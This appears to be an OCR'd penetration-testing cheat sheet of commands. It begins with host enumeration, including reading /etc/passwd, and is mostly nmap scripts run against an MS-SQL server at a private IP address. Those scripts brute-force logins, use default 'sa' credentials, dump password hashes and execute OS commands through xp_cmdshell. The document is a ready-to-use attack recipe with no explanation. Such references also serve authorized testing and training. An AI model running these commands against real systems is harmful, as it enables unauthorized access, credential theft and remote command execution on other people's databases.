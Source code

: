 

**Check Users**
```sh
net users         #Users in windows 
cat /etc/passwd   #Users in linux  
```

**List drives on the machine**
```sh
fsutil fsinfo drives     #windows 
lsblk -l                 #Linux
```

locate *.nse | grep ms-sql
nmap -p 1433 --script ms-sql-info 192.168.1.146
nmap -p1433 --script ms-sql-brute --script-args userdb=users.txt,passdb=pass.txt 192.168.1.146
nmap -p1433 --script ms-sql-query --script-args mssql.username=sa,mssql.password=Password@1,ms-sql-query.query="sp_databases" 192.168.1.146
nmap -p1433 --script ms-sql-ntlm-info 192.168.1.146
nmap -p1433 --script ms-sql-dump-hashes --script-args mssql.username=sa,mssql.password=Password@1 192.168.1.146
nmap -p1433 --script ms-sql-xp-cmdshell --script-args mssql.username=sa,mssql.password=Password@1,ms-sql-xp-cmdshell.cmd="net user" 192.168.1.146
nmap -p1433 --script ms-sql-empty-password 192.168.1.146
nmap -p1433 --script ms-sql-tables --script-args mssql.username=sa,mssql.password=Password@1 192.168.1.146

